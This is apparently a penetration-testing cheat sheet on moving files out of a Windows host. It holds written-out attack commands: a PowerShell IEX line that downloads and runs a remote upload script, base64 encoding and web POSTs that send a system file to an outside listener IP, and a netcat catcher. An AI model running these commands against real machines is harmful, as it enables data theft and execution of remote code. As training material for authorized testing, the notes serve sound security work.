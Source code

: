 ## Upload Operations

### PowerShell Base64 Encode & Decode

**Encode File on Windows:**
```powershell
[Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))
```

**Get MD5 Hash on Windows:**
```powershell
Get-FileHash "C:\Windows\system32\drivers\etc\hosts" -Algorithm MD5 | select Hash
```

**Decode Base64 on Linux:**
```bash
echo <base64_string> | base64 -d > hosts
md5sum hosts  # Verify hash
```

### PowerShell Web Uploads

PowerShell doesn't have a built-in upload function, but we can use `Invoke-WebRequest` or `Invoke-RestMethod`.

**Setup Upload Server on Linux:**
```bash
# Install uploadserver
pip3 install uploadserver

# Start upload server
python3 -m uploadserver
# File upload available at /upload on port 8000
```

**Upload via PowerShell Script:**
```powershell
# Download and use PSUpload.ps1
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```

**Base64 Web Upload:**
```powershell
# Encode and POST via web request
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```

**Catch with Netcat:**
```bash
nc -lvnp 8000
# Then decode the base64 content
echo <base64_content> | base64 -d -w 0 > hosts
```

